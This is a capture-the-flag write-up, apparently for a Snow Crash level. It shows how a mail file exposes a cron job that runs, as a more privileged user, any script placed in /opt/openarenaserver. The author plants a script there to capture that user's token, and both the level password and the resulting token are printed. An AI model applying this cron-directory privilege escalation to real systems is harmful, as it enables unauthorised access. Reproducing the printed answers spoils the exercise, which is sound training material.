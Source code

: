 ## FLAG: `ne2searoevaevoem4ov4ar8ap`

## I have a mail !
```
    You have new mail.
```

## This mail give me a crontable line
> cat /var/mail/level05
```
    */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
## `/usr/sbin/openarenaserver` running every 2 minutes for flag05 ?

## this script run every bash files in `/opt/openarenaserver/` folder
> cat /usr/sbin/openarenaserver
```
    #!/bin/sh

    for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
    done
```

------------------------------------------------

## We create our script which execute getflag command and put the result in a readable file
> vi /opt/openarenaserver/getflag.sh
```
#!/bin/bash
getflag > /tmp/05_flag
```
> cat /tmp/05_flag
```
    Check flag.Here is your token : viuaaale9huek52boumoomioc
```